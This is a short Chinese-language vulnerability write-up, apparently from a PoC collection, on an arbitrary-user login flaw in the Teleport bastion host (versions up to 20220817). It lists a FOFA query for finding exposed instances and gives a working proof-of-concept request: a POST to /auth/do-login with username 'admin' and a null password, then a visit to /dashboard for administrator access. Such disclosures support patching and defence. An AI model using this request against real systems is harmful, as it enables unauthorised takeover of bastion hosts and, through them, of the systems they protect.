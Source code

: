 # Teleport堡垒机 do-login 任意用户登录漏洞

## 漏洞描述

Teleport堡垒机存在任意用户登录漏洞，攻击者通过构造特殊的请求包可以登录堡垒机获取其他系统权限

## 漏洞影响

```
Teleport Version <= 20220817
```

## FOFA

```
app="TELEPORT堡垒机"
```

## 漏洞复现

登录页面

![image-20220824134958109](./images/202208241349427.png)

验证POC， captcha参数为验证码

```
POST /auth/do-login

args={"type":2,"username":"admin","password":null,"captcha":"ykex","oath":"","remember":false}
```

![image-20220824135439227](./images/202208241354271.png)

code 返回 0 即为成功，再访问 /dashboard 获取管理员权限

![image-20220824135449199](./images/202208241354243.png)